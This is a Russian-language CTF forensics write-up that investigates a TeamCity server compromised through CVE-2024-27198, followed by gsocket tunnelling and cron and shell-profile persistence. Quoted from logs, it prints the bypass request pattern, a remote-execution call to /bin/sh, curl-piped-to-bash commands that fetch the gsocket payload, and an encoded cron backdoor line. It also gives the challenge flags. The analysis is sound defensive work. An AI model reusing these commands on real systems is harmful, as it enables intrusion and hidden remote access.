 # CI/CD Compromise


### Легенда

Недавно наши разработчики развернули тестовый сервер во внешнем периметре сети организации, но вскоре ИБ специалистами была зафиксирована подозрительная сетевая активность. Вам предоставлены собранные цифровые артефакты для проведения дальнейшего анализа.

1. Необходимо установить IP-адрес атакующего и дату его первого обращения к скомпрометированному ресурсу.
Формат флага: rdg{127.0.0.1_12/Apr/2023:19:36:54+0000}
2. Необходимо установить уязвимость, использованную злоумышленниками для получения первоначального доступа к информационной системе.
Формат флага: rdg{CVE-20XX-XXXXX}
3. Необходимо определить семейство вспомогательного ПО (указать ссылку на репозиторий проекта), использованного злоумышленниками после получения доступа к информационной системе. Также укажите IP-адрес ресурса, с которым было установлено сетевое соединение после его запуска.
Формат флага: rdg{https://github.com/author/project_127.0.0.1}
4. Необходимо определить способы закрепления злоумышленника в скомпрометированной системе. Ответ необходимо указать в формате MITRE ATT&CK.
Формат флага: rdg{TXXXX.XXX_TYYYY.YYY}

### Решение 

TeamCity — серверное программное обеспечение от компании JetBrains, написанное на языке Java, билд-сервер для обеспечения непрерывной интеграции. 

Предоставленные материалы собраны с рабочей станции под управлением операционной системы Linux. Сервис TeamCity установлен в директории /opt/TeamCity, где вы можете найти все файлы, ассоциированные с данным ПО. Включая файлы журналов. 

Информацию о версии используемого ПО можно найти, например, в журнале /opt/TeamCity/logs/teamcity-mavenServer.log. В нашем случае используется версия 2023.11.3.
```bash
[2025-03-26 22:02:46,499]   INFO - r.maven.remote.MavenServerImpl - Shutting down. Reason [MavenEmbedderFactory shutdown called in thread [TC: 22:02:45 Processing 122 listeners for serverShutdown; 22:02:45 Stage: TeamCity server is shutting down; TeamCity Server (version 2023.11.3 build 147512 started 2025-03-26 21:55:39.753), node id: MAIN_SERVER]] 
```
Посмотрим какие критические уязвимости имеются для данной версии ПО. Например, на сайте https://www.cvedetails.com.

![изображение](https://github.com/user-attachments/assets/802a9677-ee98-436d-8ad5-22083e5f6ca6)

Видим, что самым очевидным кандидатом является уязвимость CVE-2024-27198. Данная уязвимость позволяет злоумышленнику обойти механизм аутентификации для выполнения произвольных действий от лица администратора информационной системы. Также обратим внимание на отметку, что для нее имеется публично доступный эксплойт. Давайте подтвердим данную гипотезу. 

Для эксплутации уязвимости злоумышленнику необходимо отправить специально сформированный POST-запрос на несуществующий ресурс. Пример эндпоинта для создания пользователя:
```bash
/giscyberteam?jsp=/app/rest/users;.jsp
```
Подробное техническое описание уязвимости доступно тут:
- https://www.hackthebox.com/blog/cve-2024-27198-explained
- https://habr.com/ru/articles/802293/

Попробуем поискать приведенные выше шаблоны в журналах. Находим журнал активности веб-сервера access_log.2025-03-26.txt. Проведем поиск по установленным выше подстрокам:
```powershell
> cat .\access_log..2025-03-26.txt | findstr POST | findstr "\/app\/rest\/users"

195.58.34.19 - - [26/Mar/2025:22:13:23 +0000] "POST /hax?jsp=/app/rest/users;.jsp HTTP/1.1" 200 682
195.58.34.19 - - [26/Mar/2025:22:13:24 +0000] "POST /hax?jsp=/app/rest/users/id:11/tokens/EqQzGSWlOY;.jsp HTTP/1.1" 200 236
195.58.34.19 - - [26/Mar/2025:22:13:44 +0000] "POST /hax?jsp=/app/rest/users;.jsp HTTP/1.1" 200 682
195.58.34.19 - - [26/Mar/2025:22:13:44 +0000] "POST /hax?jsp=/app/rest/users/id:12/tokens/XMocbj2XNk;.jsp HTTP/1.1" 200 236
195.58.34.19 - - [26/Mar/2025:22:13:53 +0000] "POST /hax?jsp=/app/rest/users;.jsp HTTP/1.1" 200 682
195.58.34.19 - - [26/Mar/2025:22:13:53 +0000] "POST /hax?jsp=/app/rest/users/id:13/tokens/pdr2Xm6zTf;.jsp HTTP/1.1" 200 236
195.58.34.19 - - [26/Mar/2025:22:14:01 +0000] "POST /hax?jsp=/app/rest/users;.jsp HTTP/1.1" 200 682
195.58.34.19 - - [26/Mar/2025:22:14:01 +0000] "POST /hax?jsp=/app/rest/users/id:14/tokens/sx83TFTdvN;.jsp HTTP/1.1" 200 236
195.58.34.19 - - [26/Mar/2025:22:14:53 +0000] "POST /hax?jsp=/app/rest/users;.jsp HTTP/1.1" 200 682
195.58.34.19 - - [26/Mar/2025:22:14:53 +0000] "POST /hax?jsp=/app/rest/users/id:15/tokens/7X5KVaoQhm;.jsp HTTP/1.1" 200 236
```
Видим попытки эксплуатации со стороны узла с IP-адресом 195.58.34.19. 
Флаг: rdg{CVE-2024-27198}

Посмотрим самые ранние события, ассоциированные с данным адресом:
```powershell
> cat .\access_log..2025-03-26.txt | findstr "195.58.34.19"

195.58.34.19 - - [26/Mar/2025:22:11:57 +0000] "GET /favorite/projects?__fragmentId=globalHealthItemsInner HTTP/1.1" 200 1822
195.58.34.19 - - [26/Mar/2025:22:11:58 +0000] "GET /favorite/projects?__fragmentId=globalHealthItemsInner HTTP/1.1" 200 1822
195.58.34.19 - - [26/Mar/2025:22:13:23 +0000] "POST /hax?jsp=/app/rest/users;.jsp HTTP/1.1" 200 682
195.58.34.19 - - [26/Mar/2025:22:13:24 +0000] "POST /hax?jsp=/app/rest/users/id:11/tokens/EqQzGSWlOY;.jsp HTTP/1.1" 200 236
195.58.34.19 - - [26/Mar/2025:22:13:24 +0000] "POST /admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable%3Dtrue HTTP/1.1" 200 -
195.58.34.19 - - [26/Mar/2025:22:13:24 +0000] "POST /app/rest/debug/processes?exePath=/bin/sh&params=-c&params=echo+Ready HTTP/1.1" 404 249
<truncated>
```
Самое ранее событие датировано 26/Mar/2025:22:11:57 +0000. Теперь мы можем сформировать флаг: rdg{195.58.34.19_26/Mar/2025:22:11:57+0000}.

Для выполнения произвольного кода в операционной системе с помощью TeamCity злоумышленники могли воспользоваться несколькими способами. Например, при помощи создания кастомного Runner с типом "Command Line". 

Чуть подробнее про выполнение произвольного кода в TeamCity: https://exploit-notes.hdks.org/exploit/web/teamcity-pentesting/.

Гипотезу можно подтвердить путем ознакомления с журналом сборки проектов:
```powershell
> cat /opt/TeamCity/buildAgent/logs/teamcity-build.log

[2025-03-26 22:22:43,374]   INFO - ----------------------------------------- [ Step 'Command Line' (simpleRunner), Build "Legit / Test" #1 {id=1, buildTypeId='Legit_Test'} ] -----------------------------------------
[2025-03-26 22:22:43,390]   INFO - Starting "/opt/TeamCity/buildAgent/temp/agentTmp/custom_script4562958694573815655 " in directory "/opt/TeamCity/buildAgent/work/2b35ac7e0452d98f"
[2025-03-26 22:22:44,609]   INFO - --> Trying x86_64-alpine
[2025-03-26 22:22:45,109]   INFO - Downloading binaries........................................................[OK]
[2025-03-26 22:22:45,111]   INFO - Unpacking binaries..........................................................[OK]
[2025-03-26 22:22:45,126]   INFO - Copying binaries............................................................[OK]
[2025-03-26 22:22:45,129]   INFO - Testing binaries............................................................[OK]
[2025-03-26 22:22:45,343]   INFO - Testing Global Socket Relay Network.........................................[OK]
[2025-03-26 22:22:45,518]   INFO - Installing access via crontab...............................................[OK]
[2025-03-26 22:22:45,528]   INFO - Installing access via ~/.bashrc.............................................[OK]
[2025-03-26 22:22:45,537]   INFO - Installing access via ~/.profile............................................[OK]
[2025-03-26 22:22:45,542]   INFO - Executing webhooks....................................................[SKIPPING]
[2025-03-26 22:22:45,542]   INFO - --> To uninstall use GS_UNDO=1 bash -c "$(curl -fsSL https://gsocket.io/x)"
[2025-03-26 22:22:45,542]   INFO - --> To connect use one of the following:
[2025-03-26 22:22:45,543]   INFO - --> gs-netcat -s "3X4hXfVKsn6V7z1F8UQuDX" -i
[2025-03-26 22:22:45,543]   INFO - --> S="3X4hXfVKsn6V7z1F8UQuDX" bash -c "$(curl -fsSL https://gsocket.io/x)"
[2025-03-26 22:22:45,544]   INFO - --> S="3X4hXfVKsn6V7z1F8UQuDX" bash -c "$(wget -qO- https://gsocket.io/x)"
[2025-03-26 22:22:45,551]   INFO - Starting 'defunct' as hidden process '[mm_percpu_wq]'.......................[OK]
[2025-03-26 22:22:45,552]   INFO - --> Join us on Telegram - https://t.me/thcorg
[2025-03-26 22:22:45,579]   INFO - Process exited with code 0
```
Видим вывод результата установки популярного средства для туннелирования gsocket: https://github.com/hackerschoice/gsocket. Обратим внимание, что данное ПО было запущено как процесс с именем mm_percpu_wq.

Для ответа на вопрос с каким удаленным сервисом было установлено сетевое соединение после запуска gsocket обратимся к предоставленным артефактам. В частности к результату работы утилиты Netstat:
```powershell
> cat .\results\Linux.Network.Netstat.json

<truncated>
{"inode":"148166","State":"Established","uid":"1001","ProcessInfo":{"Pid":7483,"Command":"defunct\n","CommandLine":"[mm_percpu_wq]\u0000","Filename":"socket:[148166]","Type":"socket","Inode":"148166"},"LocalAddr":{"IP":"10.128.0.30","Port":34280},"RemoteAddr":{"IP":"213.171.212.212","Port":443}}
{"inode":"149977","State":"Established","uid":"1001","ProcessInfo":{"Pid":7483,"Command":"defunct\n","CommandLine":"[mm_percpu_wq]\u0000","Filename":"socket:[149977]","Type":"socket","Inode":"149977"},"LocalAddr":{"IP":"10.128.0.30","Port":51410},"RemoteAddr":{"IP":"213.171.212.212","Port":443}}
<truncated>
```

Процесс mm_percpu_wq инициировал несколько сетевых соединение с узлом, имеющим IP-адрес 213.171.212.212.
Флаг: rdg{https://github.com/hackerschoice/gsocket_213.171.212.212}.

Подсказку для определения способов закрепления в системе мы могли видеть в выводе результата работы gsocket:
```powershell
<truncated>
[2025-03-26 22:22:45,518]   INFO - Installing access via crontab...............................................[OK]
[2025-03-26 22:22:45,528]   INFO - Installing access via ~/.bashrc.............................................[OK]
[2025-03-26 22:22:45,537]   INFO - Installing access via ~/.profile............................................[OK]
<truncated>
```
Находим закреп через crontab uploads/auto/var/spool/cron/crontabs/teamcity:
```powershell
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (- installed on Wed Mar 26 22:22:45 2025)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# DO NOT REMOVE THIS LINE. SEED PRNG. #defunct-kernel
0 * * * * { echo L3Vzci9iaW4vcGtpbGwgLTAgLVUxMDAxIGRlZnVuY3QgMj4vZGV2L251bGwgfHwgU0hFTEw9L2Jpbi9iYXNoIFRFUk09eHRlcm0tMjU2Y29sb3IgR1NfQVJHUz0iLWsgL2hvbWUvdGVhbWNpdHkvLmNvbmZpZy9odG9wL2RlZnVuY3QuZGF0IC1saXFEIiAvdXNyL2Jpbi9iYXNoIC1jICJleGVjIC1hICdbbW1fcGVyY3B1X3dxXScgJy9ob21lL3RlYW1jaXR5Ly5jb25maWcvaHRvcC9kZWZ1bmN0JyIgMj4vZGV2L251bGwK|base64 -d|bash;} 2>/dev/null #1b5b324a50524e47 >/dev/random # seed prng defunct-kernel

```
После декодирования:
```powershell
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (- installed on Wed Mar 26 22:22:45 2025)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# DO NOT REMOVE THIS LINE. SEED PRNG. #defunct-kernel
0 * * * * { /usr/bin/pkill -0 -U1001 defunct 2>/dev/null || SHELL=/bin/bash TERM=xterm-256color GS_ARGS="-k /home/teamcity/.config/htop/defunct.dat -liqD" /usr/bin/bash -c "exec -a '[mm_percpu_wq]' '/home/teamcity/.config/htop/defunct'" 2>/dev/null|bash;} 2>/dev/null #1b5b324a50524e47 >/dev/random # seed prng defunct-kernel

```
Данный способ соответствует технике T1053.003 Scheduled Task/Job: Cron матрицы MITRE ATT&CK.

Аналогичные команды можно обнаружить в uploads/file/home/teamcity/.bashrc и uploads/file/home/teamcity/.profile. Данный способ соответствует технике T1546.004 Event Triggered Execution: Unix Shell Configuration Modification матрицы MITRE ATT&CK.

Флаг: rdg{T1053.003_T1546.004}.
